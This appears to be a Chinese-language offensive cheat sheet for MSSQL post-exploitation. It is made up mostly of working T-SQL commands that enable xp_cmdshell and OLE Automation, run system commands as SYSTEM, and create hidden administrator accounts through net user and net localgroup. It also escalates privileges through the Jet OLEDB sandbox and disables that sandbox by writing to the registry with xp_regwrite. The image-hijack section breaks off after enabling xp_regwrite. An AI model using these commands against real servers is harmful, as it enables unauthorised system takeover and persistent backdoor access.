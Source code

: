 SQLServer 2019之前的数据库SA用户都是`nt service\SYSTEM`

在2019版本以及之后的版本都被降权为`nt service\mssqlserver`



默认端口号：1433



权限级别

SA：系统管理员，SQLServer 最高权限，可进行数据库操作，文件管理，命令执行，在2019版本之前注册表读取权限是最高的SYSTEM

db：数据库所有者，只有文件管理权限

public：游客权限



# 攻击常用查询

```mssql
(SELECT count(*) from sysobjects) > 0 # 返回正常说明是mssql，且有可能是sa
SELECT @@VERSION	# 查看数据库版本
SELECT name FROM MASter..SysDatabASes ORDER BY name # 获取MSSQL中所有的数据库名
SELECT name FROM master..sysdatabases for xml path # 同上
SELECT SysObjects.name AS Tablename FROM sysobjects WHERE xtype = 'U' and sysstat<200 # 查询所有数据库中的表名
SELECT name FROM sysobjects for xml path # 同上

SELECT IS_SRVROLEMEMBER('sysadmin') # 判断是否是SA权限
SELECT is_member('db_owner')        # 判断是否是db_owner权限
SELECT is_srvrolemember('public')   # 判断是否是public权限

EXEC xp_dirtree 'c:'        # 列出所有c:\文件、目录、子目录
EXEC xp_dirtree 'c:',1      # 只列c:\目录
EXEC xp_dirtree 'c:',1,1    # 列c:\目录、文件
EXEC xp_subdirs 'C:';       # 只列c:\目录
```



# xp_cmdshell 操作

> xp_cmdshell 默认在mssql 2000中是开启的，在mssql 2005之后默认禁止，但未删除。
>
> 所有，在拥有sa权限的情况下，我们可以将其开启，并以 `SYSTEM` 权限执行系统命令



相关操作如下

```mssql
# 查看 xp_cmdshell 开关状态 返回1表示组件启用
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='x' and name='xp_cmdshell'

# 开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;reconfigure;
EXEC sp_configure 'xp_cmdshell',1;reconfigure;

# 关闭 xp_cmdshell
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure
```



利用 `xp_cmdshell` 执行命令

```mssql
# 以下几条命令格式都可以使用
EXEC xp_cmdshell "whoami"
master..xp_cmdshell 'whoami'    (2008版上好像用不了)
EXEC master..xp_cmdshell "whoami"
EXEC master.dbo.xp_cmdshell "ipconfig"

# 添加高权限系统用户
EXEC master..xp_cmdshell "net user test12 123.com /add" # 添加用户test12
EXEC master..xp_cmdshell "net localgroup administrators test12 /add" # 将test12添加到管理员组
EXEC master..xp_cmdshell "net user test12" # 查看添加的用户test12
```



# sp_oacreate 操作

> `sp_oacreate` 可以通过调用 `wscript.shell` 执行命令
>
> `sp_oacreate`系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合`sp_oamethod`系统存储过程调用系统`wscript.shell`来执行系统命令。`sp_oacreate`和`sp_oamethod`两个过程分别用来创建和执行脚本语言。
>
> 
>
> 系统管理员使用`sp_configure`启用`sp_oacreate`和`sp_oamethod`系统存储过程对OLE自动化过程的访问（OLE Automation Procedures）
>
> 在效果方面，`sp_oacreate、sp_oamethod`两个过程和`xp_cmdshell`过程功能类似，因此可以替换使用！



利用条件

- 获取到未降权的数据库管理员用户名密码
- sql server 允许远程连接
- OLE Automation Procedures 选项开启



相关操作如下：

```mssql
# 查看 sp_oacreate 开关状态 返回1表示组件启用
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='x' and name='SP_OACREATE';

# 开启 sp_configure
EXEC sp_configure 'show advanced options',1;reconfigure;
EXEC sp_configure 'Ole Automation Procedures',1;reconfigure;

# 关闭 sp_configure
EXEC sp_configure 'show advanced options',1;reconfigure;
EXEC sp_configure 'Ole Automation Procedures',0;reconfigure;
```



利用 `sp_oacreate` 和 `sp_oamethod` 执行命令

```mssql
# 执行whoami，并将输出结果写入 c:\\sqltest.txt
# 回显0表示成功（无回显的命令执行）
declare @shell int exec sp_oacreate 'wscript.shell',@shell output 
exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\sqltest.txt';

# 删除文件
declare @result int
declare @fso_token int
exec sp_oacreate 'scripting.filesystemobject', @fso_token out
exec sp_oamethod @fso_token,'deletefile',null,'c:\sqltest.txt'
exec sp_oadestroy @fso_token
```



# sql Server 沙盒提权

> 沙盒提权的原理就是`jet.oledb`（修改注册表）执行系统命令。数据库通过查询方式调用`mdb`文件，执行参数，绕过系统本身自己的执行命令，实现`mdb`文件执行命令。



使用前提

- 需要`Microsoft.Jet.OLEDB.4.0`一般在32位系统才可以，64位机需要12.0，较复杂

- `dnary.mdb`和`ias.mdb`两个文件 在`win2003`上默认存在，也可自行准备



相关操作如下：

```mssql
# 测试 jet.oledb 能否使用 若无法使用则会报错
SELECT * FROM openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')

# 开启Ad Hoc Distributed Queries 组件
EXEC sp_configure 'show advanced options',1 ;reconfigure ;
EXEC sp_configure 'Ad Hoc Distributed Queries',1 ;reconfigure;

	# 关闭Ad Hoc Distributed Queries 组件
	EXEC sp_configure 'show advanced options',1 ;reconfigure ;
	EXEC sp_configure 'Ad Hoc Distributed Queries',0 ;reconfigure;

# 关闭沙盒模式 回设时只需要把0改成2
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

0：在任何所有者中禁止启用安全模式
1：为仅在允许范围内
2：必须在access模式下
3：完全开启

# 查看沙盒模式
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

# 执行命令 - whoami
SELECT * FROM OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami >c:\\sqltest.txt ")');

# 执行命令 - 创建用户
SELECT * FROM OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user testq QWEasd123 /add")');

SELECT * FROM OpenRowSet('microsoft.jet.oledb.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net localgroup administrators testq /add")');

SELECT * FROM OpenRowSet('microsoft.jet.oledb.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user testq")');
```



# xp_regwrite提权 | 映像劫持提权

>  通过使用`xp_regwrite`存储过程对注册表进行修改，替换成任意值，造成镜像劫持。



使用前提

- 未禁止注册表编辑（即写入功能）
- xp_regwrite 启用



相关操作如下：

```mssql
# 查看xp_regwrite是否启用
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='x' and name='xp_regwrite'

# xp_regwrite开启
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_regwrite',1; RECONFIGURE;


```



